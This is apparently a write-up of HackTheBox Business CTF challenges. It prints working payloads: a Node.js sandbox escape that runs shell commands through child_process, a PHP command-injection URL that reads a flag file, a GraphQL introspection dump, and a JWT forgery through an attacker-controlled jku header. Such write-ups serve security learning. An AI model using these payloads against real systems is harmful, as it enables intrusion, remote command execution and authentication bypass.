






# Business_CTF
Writeup for business ctf hackthebox

- [DiscordVM - Misc](#discordvm)
- [Time - Web](#time---web)
- [NoteQL - Web](#noteql---web)
- [Emergency - Web](#emergency---web)
## DiscordVM
Challenge Description



Since I can't use the space, I made the payload to decode url of the url encoded payload.
```
!calc eval(decodeURIComponent("const%20process%20%3D%20this.constructor.constructor%28%27return%20this.process%27%29%28%29%3Bprocess.mainModule.require%28%27child_process%27%29.execSync%28%27cat%20%2Fapp%2Fflag.txt%27%29.toString%28%29"))
```


## Time - Web
Challenge files are given.

[webtime.zip](https://github.com/mgthuramoemyint/Business_CTF/blob/main/assets/web_time.zip)

I've opened the files and check index.php and found a function.
```php
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
```
TimeController.php
```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
TimeModel.php
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
So the `$_GET['format']` will be executed as `date '$format' 2>&1`
Command Injection:
```
http://host/?format=%Y-%m-%d-%27;$(cat%20../../flag)%27
```


## NoteQL - Web

The website is running with graphql, lets extract some data.  
Dump Database Schema
```json
{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}
```

All Notes > Post  
Post 
```json
{"kind":"OBJECT","name":"Post","description":null,"fields":[{"name":"id","description":null,"args":[],"type":{"kind":"SCALAR","name":"ID","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"title","description":null,"args":[],"type":{"kind":"SCALAR","name":"String","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"author","description":null,"args":[],"type":{"kind":"SCALAR","name":"String","ofType":null},"isDeprecated":false,"deprecationReason":null},{"name":"completed","description":null,"args":[],"type":{"kind":"SCALAR","name":"Int","ofType":null},"isDeprecated":false,"deprecationReason":null}
```
Extract Data From AllNotes 
```
{\n        AllNotes {\n            id,\n            title,\n            completed\n        }\n    }
```


## Emergency - Web
The goal is to login as admin.  
We can register at the website so I registered account, login and check the cookie, found that it is jwt token.

So I gonna set my own `jku` and create a cookie.  
Generate key for making own jwt token.
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
Then generate JWT token using the pkcs8.key, use publickey.crt to verify the signature. Change JKU to your server.  

We have to make our own JKU so, take the JKU from challenge server.  
Original JKU
```json
{"keys":[{"alg":"RS256","e":"65537","kid":"aedd40bb-c3e1-484c-9276-9dfd9851cff3","kty":"RSA","n":"24804136272110884170787839867509396323230452724341294178183865340492552954568132005519367025541596752921431623049627351835958562122544540080932545251349061259190325088018724836377533549565932185384077836949817646469726711414100682617069656975777881198841775915669087389236050322091575593991507323447213865777691048813484082833092035860079907820032850768679758581620645163333756575988255800385896460143061616854956663179672176444743239709864328164790358766944504024227158890339579832048468543075523470250598988834568422544922488008415048354329034383653634008293324332102176778049993377105382177352682734886146530780521","use":"sig"}]}
```
We need `e` and `n`, so I gonna generate this.
```python
from Crypto.PublicKey import RSA

fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()

print "n:", int(key.n)
print "e:", int(key.e)
```
That is all, copy the jwt token and replace in cookie.

